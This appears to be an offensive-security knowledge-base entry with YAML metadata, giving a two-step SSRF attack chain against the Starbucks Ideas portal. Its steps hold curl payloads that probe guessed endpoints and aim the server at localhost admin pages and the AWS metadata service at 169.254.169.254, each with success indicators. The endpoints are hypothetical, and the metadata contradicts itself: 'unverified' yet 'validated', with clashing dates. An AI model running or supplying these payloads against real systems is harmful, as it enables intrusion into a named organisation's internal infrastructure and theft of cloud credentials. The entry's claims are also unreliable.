

---
tags:
  - ssrf
  - web-vulnerability
  - internal-enumeration
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
procedures:
  - '[[procedures/Identify-SSRF-Endpoint-on-Web-Application]]'
  - '[[procedures/Exploit-SSRF-to-Access-Internal-Resources]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  A multi-stage attack leveraging Server-Side Request Forgery (SSRF) on the
  Starbucks Ideas portal to proxy requests to internal network resources,
  enabling enumeration and potential exposure of sensitive infrastructure.
skill_level: intermediate
impact_level: high
id: 85e04851-a0a9-4ea2-87ba-57815634cd40
created_at: '2025-12-14T03:53:38.459Z'
updated_at: '2025-12-14T03:53:38.459Z'
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# SSRF Exploitation on ideas.starbucks.com to Access Internal Infrastructure

Multi-stage attack chain demonstrating a complete attack workflow exploiting SSRF to turn the public-facing Starbucks Ideas portal into a proxy for internal network reconnaissance.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web application on public internet (e.g., ideas.starbucks.com)
- No specific ports required beyond standard HTTPS (443)
- Network access to the target domain

### Initial Access Requirements

- No credentials needed
- Public network position
- No prior access required

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-SSRF-Endpoint-on-Web-Application]]

**Objective**: Locate an endpoint in the web application that accepts user-supplied URLs without proper validation, allowing server-side requests to arbitrary hosts.

**Instructions**: Use [[tools/Burp-Suite]] to intercept and modify requests to potential endpoints like upload features or URL-sharing functionalities on ideas.starbucks.com. Test by replacing a legitimate URL parameter with a known external URL, such as http://httpbin.org/ip, and observe if the server fetches and returns the response.

For example, if an endpoint like /submit-idea?url= exists, intercept a request and modify it:

```bash
# Using curl to test (or replicate in Burp)
curl -X POST "https://ideas.starbucks.com/submit-idea" -d "url=http://httpbin.org/ip" -v
```

Then, use [[commands/curl-external-url-test]] to verify response inclusion:

```bash
curl "https://ideas.starbucks.com/endpoint?url=http://httpbin.org/ip"
```

**Expected Output**: The response body includes content from the external URL, such as IP details from httpbin.org.

**Success Indicators**:
- Server response contains data from the supplied external URL
- No blocking or error for non-domain URLs

### Step 2: Exploit SSRF for Internal Access
procedure: [[procedures/Exploit-SSRF-to-Access-Internal-Resources]]

**Objective**: Leverage the identified SSRF to send requests to internal resources, such as metadata services or private IPs, to enumerate infrastructure.

**Instructions**: Once the endpoint is confirmed, craft payloads targeting internal hosts. Start with localhost or private IPs (e.g., 127.0.0.1, 169.254.169.254 for AWS metadata if applicable). Use [[commands/curl-internal-ssrf-payload]] to test access to internal endpoints:

```bash
curl "https://ideas.starbucks.com/endpoint?url=http://127.0.0.1:8080/admin" -v
```

Escalate by targeting cloud metadata if the server is in a cloud environment:

```bash
curl "https://ideas.starbucks.com/endpoint?url=http://169.254.169.254/latest/meta-data/" -v
```

Monitor responses for internal details like service banners or directory listings.

**Expected Output**: Response includes internal server data, such as admin page content or metadata JSON.

**Success Indicators**:
- Access to internal ports or services (e.g., 200 OK from private IP)
- Exposure of sensitive info like instance metadata

## Attack Chain Summary

### Key Achievements

1. Identified SSRF-vulnerable endpoint on public web app
2. Proxied requests to internal network for enumeration
3. Potentially exposed sensitive infrastructure details

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Reconnaissance]]

---
*Last updated: 2024-10-01T00:00:00Z*
